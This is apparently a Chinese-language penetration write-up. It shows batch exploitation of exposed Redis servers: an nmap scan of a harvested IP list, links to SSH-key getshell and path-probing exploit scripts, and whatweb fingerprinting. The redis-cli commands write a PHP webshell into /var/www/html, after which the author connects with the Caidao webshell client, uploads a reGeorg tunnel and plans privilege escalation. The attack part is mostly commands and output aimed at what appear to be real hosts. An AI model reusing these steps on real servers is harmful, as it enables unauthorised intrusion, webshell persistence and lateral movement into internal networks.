 ```python

register(TestPOC)
```
结果：
> success : 40 / 54 

### 测试是否有root权限能否写入公钥，测试ssh连接

 利用exp: https://github.com/Xyntax/POC-T/blob/master/script/redis-sshkey-getshell.py
 > 结果 1/40 

### 探测是否开放80端口
> nmap -Pn -sS -p80,443,8080, -iL redis_success_ip.txt -oX ./redis_http_ip.xml

#### 使用脚本枚举绝对路径,exp：https://github.com/Xyntax/POC-T/blob/master/script/redis-web-probe.py
![path](https://nanazeven.github.io/image/path.png)
#### 批量识别指纹
> whatweb --no-error -i redis_http.txt --log-brief=res_out
#### 手动连接测试
```code
proxychians redis-cli -h ip:6379
config set dir /var/www/html 
config set dbfilename 2.php
set x "<?php phpinfo();?>"
save
```
#### 成功写入webshell：
![res1](https://nanazeven.github.io/image/res1.png)

#### 连接菜刀&上传端口转发脚本&查看权限
使用SocksCap64启动caodao.exe
> 端口转发脚本：https://github.com/sensepost/reGeorg
```
$ whoami 
$ www-data
$ ifconfig
```
执行ifconfig发现存在和其他网络的联通。需要提权。

## 另一个目标：使用默认目录作为项目根目录
成功写入webshell，是用菜刀上传端口转发脚本。
www-data需要提权
![res2](https://nanazeven.github.io/image/res2.png)


